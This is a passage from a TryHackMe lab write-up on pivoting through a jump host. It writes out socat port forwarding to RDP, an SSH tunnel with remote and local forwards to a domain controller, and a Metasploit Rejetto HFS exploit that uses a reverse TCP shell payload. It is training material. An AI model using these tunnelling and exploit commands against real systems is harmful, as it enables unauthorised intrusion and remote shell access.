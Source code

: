    ```cmd
   socat TCP4-LISTEN:1337, TCP4:THMIIS.za.tryhackme.com:3389
   ```

   SOCAT

   No that the port has been forwarded, we can rdp into thmiis by pointing to thmjmp2 on port 1337.

   We can see we are connected to thmiis.

   RDP

   We can get our flag from the desktop.

   FLAG

   ><details><summary>Click for answer</summary></details>

2. What is the flag obtained using the Rejetto HFS exploit on THMDC?

   For this exploit to work we need to setup an ssh tunnel with a remote port (tunneling our machine to the effected port on the dc) and two local ports (tunneling requests from the dc via jmp2 to our machine).

   But first, we need to setup a user to use for this exploit. This can be deleted later.

   ```cmd
   useradd tunneluser2 -m -d /home/tunneluser2 -s /bin/true

   passwd tunneluser2
   ```

   Make sure to log into thmjmp2 with our initial ssh credentials and use the following command to setup the correct tunnel.

   ```cmd
   ssh tunneluser2@10.50.77.144 -R 1337:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N
   ```

   I had issues connecting, because the connection got refused. This was solved with `sudo systemctl start ssh.socket`.

   DYNAMIC

   Now that the tunnel is setup, we can prepare the msf exploit.

   ```cmd
   use exploit/windows/http/rejetto_hfs_exec
   set payload windows/shell_reverse_tcp
   set ReverseListenerBindAddress 127.0.0.1
   set lhost thmjmp2.za.tryhackme.com
   set lport 7777
   set srvport 6666
   set srvhost 127.0.0.1
   set rhosts 127.0.0.1
   set rport 1337
   exploit
   ```

   MSF

   Of all is well, we exploit will be abused and a connection will be made to the dc.

   CONNECTION

   Now we can get our second flag.

   FLAG2

   ><details><summary>Click for answer</summary></details>

